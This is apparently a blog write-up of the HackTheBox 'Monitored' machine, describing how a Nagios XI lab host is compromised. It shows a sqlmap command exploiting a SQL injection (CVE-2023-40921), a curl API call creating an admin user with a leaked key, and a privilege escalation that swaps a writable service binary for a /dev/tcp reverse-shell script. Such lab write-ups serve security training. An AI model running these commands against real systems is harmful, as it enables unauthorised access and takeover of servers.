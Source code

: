 ```yaml
---
layout: post
title: "Monitored 5072dccbda244138834a1e9fcdcde283"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Monitored

HackTheBox: Medium

<aside>
💡 Monitored is a machine with a service powered by nagiosxi which is useful for IT infrastructure monitoring

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled.png' | relative_url }})

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_1.png' | relative_url }})

After some re-search we find some vulnerabilities with a possible slq injection but we need some creds with low privileges

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_2.png' | relative_url }})

## 2: User flag

> If we perform a snmpwalk to get a full list about allow gadgets in the network
> 

There we find some creds, they are no useful for the main page but we can try with sqlmap

> Looking fo vulnerabilities we find a specific url which doesn’t has sanitization in a parameter (id) (CVE-2023-40921)
> 

```bash
sqlmap -u <url> --data "user&password" --level 5 --risk 3 -p id --batch(automatic) -D(db)
nagxi -T(table) --dump(get data)
```

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_4.png' | relative_url }})

> Now we have an auth token and we are able to create a new user for nagios
> 

```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=admin111&password=admin111&name=Admin111&email=admin111@localhost&auth_level=admin"
```

We get into nagios dashboard in the route 

1. Core config 
2. Commands and create a new command(rev shell)
3. apply conf
4. Monitoring→host→local→checkcommand
5. Listen on specific port and user flag got it

## 3: Priv esc

```bash
[linpeas.sh](http://linpeas.sh/):
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
```

We can modify /usr/local/nagios/bin/npcd file.

Check out what we can run as root:

```bash
sudo -l:
....
/usr/local/nagiosxi/scripts/manage_services.sh *
```

We can start/stop npcd.service.

```bash
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
$ rm npcd

## pass a new npcd file with the rev shell lines (Dont try to modify a bin
##in those conditions is almost imposible)

#!/bin/bash

## bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

##Start nc on your local machine, then:
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

machine pwned!!!!